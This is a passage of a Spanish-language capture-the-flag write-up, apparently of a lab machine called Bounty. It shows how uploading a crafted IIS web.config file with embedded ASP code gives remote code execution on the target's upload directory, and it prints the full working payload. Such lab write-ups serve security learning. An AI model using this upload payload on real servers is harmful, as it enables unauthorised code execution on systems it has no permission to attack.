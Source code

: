 En `/transfer.aspx` vemos lo siguiente tras subir un archivo llamado `dog.jpg`

![](/assets/img/Bounty/image_2.png)

En `/uploadedFiles` he buscado por el archivo `dog.jpg` pero no está ahí, he visto en [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services) que puedes subir un archivo `.config` para `ejecutar código` malicioso. Con este código podemos crear un archivo llamado `web.config` para posteriormente subirlo a la `web`

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```

La web ha aceptado el `payload`

![](/assets/img/Bounty/image_3.png)

Si nos dirigimos ahora a `http://10.129.195.172/uploadedFiles/web.config` recibiremos un `3`, eso significa que el `código` ha `funcionado` correctamente y que tenemos un `RCE` (Remote Code Execution). La web `borra` los `archivos` subidos `rápidamente` por lo hay que ser `rápido` para `ejecutar` el `payload` 
